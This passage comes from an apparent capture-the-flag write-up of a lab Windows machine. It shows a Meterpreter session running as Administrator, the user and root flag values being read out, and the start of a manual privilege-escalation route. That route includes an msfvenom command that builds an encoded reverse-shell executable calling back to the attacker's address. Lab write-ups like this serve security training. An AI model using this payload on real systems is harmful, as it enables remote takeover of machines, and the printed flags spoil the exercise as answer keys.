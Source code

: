 After waiting a while you should get the meterpreter shell.  
You are now logged in as administrator.

```bash
meterpreter > getuid
Server username: HACKPARK\Administrator
```

Let's grab the flags.

```bash
meterpreter > cd c:\\users\\jeff\\desktop
meterpreter > dir
Listing: c:\users\jeff\desktop
==============================

Mode              Size  Type  Last modified              Name
----              ----  ----  -------------              ----
100666/rw-rw-rw-  282   fil   2019-08-04 19:54:53 +0100  desktop.ini
100666/rw-rw-rw-  32    fil   2019-08-04 19:57:10 +0100  user.txt

meterpreter > cat user.txt
759bd8af507517bcfaede78a21a73e39meterpreter >
```

```bash
meterpreter > cd c:\\users\\administrator\\desktop
meterpreter > dir
Listing: c:\users\administrator\desktop
=======================================

Mode              Size  Type  Last modified              Name
----              ----  ----  -------------              ----
100666/rw-rw-rw-  1029  fil   2019-08-04 12:36:42 +0100  System Scheduler.lnk
100666/rw-rw-rw-  282   fil   2019-08-03 18:43:54 +0100  desktop.ini
100666/rw-rw-rw-  32    fil   2019-08-04 19:51:42 +0100  root.txt

meterpreter > cat root.txt
7e13d97f05f7ceb9881a3eb3d78d3e72meterpreter >
```

## Privilege Escalation without Metasploit

Privilege escalation is very comfortable with metasploit, but it's not the only way.  
Let's see how we can go about without it, just for fun.  
Assuming you still have the basic netcat shell, we will stabilize it like we did earlier but no meterpreter this time! Just a plain reverse shell.  
Generate the payload.

```bash
root@ip-10-10-75-156:~# msfvenom -p windows/shell_reverse_tcp LHOST=10.10.75.156 LPORT=6666 --encoder x86/shikata_ga_nai -f exe > shell.exe
[-] No platform was selected, choosing Msf::Module::Platform::Windows from the payload
[-] No arch selected, selecting arch: x86 from the payload
Found 1 compatible encoders
Attempting to encode payload with 1 iterations of x86/shikata_ga_nai
x86/shikata_ga_nai succeeded with size 351 (iteration=0)
x86/shikata_ga_nai chosen with final size 351
Payload size: 351 bytes
Final size of exe file: 73802 bytes
```

